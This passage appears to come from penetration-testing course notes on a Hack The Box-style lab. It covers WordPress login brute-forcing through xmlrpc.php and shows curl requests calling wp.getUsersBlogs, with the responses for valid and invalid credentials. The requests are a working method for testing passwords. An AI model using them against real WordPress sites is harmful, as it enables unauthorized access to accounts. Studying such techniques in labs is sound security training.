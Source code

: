 ```shell
    <SNIP>
  },
<SNIP>
```

# Login

Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the `xmlrpc.php` page.

If our POST request against `xmlrpc.php` contains valid credentials, we will receive the following output:

#### cURL - POST Request

```shell
gitblanc@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

If the credentials are not valid, we will receive a `403 faultCode` error.

#### Invalid Credentials - 403 Forbidden

```shell
gitblanc@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>asdasd</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
```